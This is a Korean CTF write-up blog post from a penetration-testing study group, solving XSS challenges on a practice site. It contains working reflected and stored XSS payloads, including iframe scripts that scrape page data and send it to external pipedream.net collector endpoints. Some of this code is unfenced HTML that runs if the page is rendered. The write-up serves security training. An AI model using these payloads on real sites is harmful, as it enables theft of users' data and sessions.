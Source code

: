 ```yaml
---
layout: post
comments: true
sitemap:
    changefreq: daily
    priority: 0.5

title: "[CTF] CTF 문제 풀이: XSS - iframe"
excerpt: "모의해킹 취업반 스터디 7기 11주차"

date: 2024-12-30
last_modified_at: 

tags: [TIL, WEB]
---
```


# Basic Script Prac
## mypage -> reflected xss
<img src=. onerror="
let e = document.querySelectorAll('input')[1].placeholder;
let i = new Image();
i.src = 'https://eot2jevtyijbm2l.m.pipedream.net/?cookie=' + e;
">

# Steal Info
## notice_list.php
1. 저장되고 출력되는 위치 확인
<img src="https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-30-1.gif?raw=true">

1. 특수문자 <'"> 사용 가능한 지 확인
<img src="https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-30-2.gif?raw=true">

1. `<script>alert(1)</script>`로 XSS 공격이 가능한 지 확인
<img src="https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-30-3.gif?raw=true">

1. mypage 접속해 data 탈취
<img src="https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-30-4.gif?raw=true">

```html
<iframe src="http://ctf.segfaulthub.com:4343/scriptPrac/secret.php" id="targetIframe">
</iframe>
<script>
    let f = document.querySelector('iframe').contentWindow;
    f.addEventListener('load', () => {
        var e = f.document.getElementsByClassName('card-text')[1].textContent;
        console.log(f);
        let i = new Image();
        i.src = "https://eoxee0fw4m1u2sw.m.pipedream.net/?cookie=" + e;
    })
</script>
```

# Steal Info 2
## notice_list -> stored xss
<iframe src="http://ctf.segfaulthub.com:4343/scriptPrac2/mypage.php" id="targetIframe">
</iframe>
<script>
    let f = document.querySelector('iframe').contentWindow;
    f.addEventListener('load', () => {
        let e = f.document.querySelectorAll('input')[1].placeholder;
        console.log(f);
        let i = new Image();
        i.src = "https://eot2jevtyijbm2l.m.pipedream.net/?cookie=" + e;
    })
</script>